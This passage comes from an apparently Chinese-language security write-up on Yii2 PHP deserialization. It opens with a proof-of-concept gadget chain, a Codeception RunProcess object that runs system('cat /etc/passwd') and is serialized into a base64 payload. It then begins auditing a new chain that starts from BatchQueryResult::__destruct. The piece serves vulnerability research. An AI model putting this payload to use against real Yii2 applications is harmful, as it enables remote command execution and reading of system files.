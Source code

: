 ```php
        private $processes = [] ;
        function __construct($command,$argv)
        {
            $this->processes[] = new ValidGenerator($command,$argv);
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;
    $exp = new RunProcess('system','cat /etc/passwd');
    echo(base64_encode(serialize($exp)));
    exit();
}
```

在这里我们会发现一个问题，就是基本上都用到了Faker的这个namespace下的类，但是在yii2的核心框架不含任何拓展的情况下这个命名空间的相关文件是没有的。所以基本上网上的poc全部都失效了。这边就需要我们自己去挖掘一条yii2的反序列化链。去GitHub上下载了对应的yii2的版本，由于没发现标签是yii2.0.13-dev的这个版本，所以就下载了yii2.0.13的最新的一个版本。

![01.png](assets/1700187068-f3c8028e56f81c29cd529129cad5687a.png)

#### 反序列化链的审计

老规矩，在没有后续操作下的反序列化的可利用的起始魔术方法基本上是\_\_destruct，yii2也很简单明了，也就只有一个类含有\_\_destruct

![02.png](assets/1700187068-9df0e3b5c2e15f67023c79f1c81d2993.png)  
在BatchQueryResult类中的\_\_destruct作为反序列化的起点，这个也和网上大多数的链子的起点一样。往下走，可以看到\_\_destruct中调用了reset，而reset函数中则出现了反序列化中很喜欢遇到的一个写法。
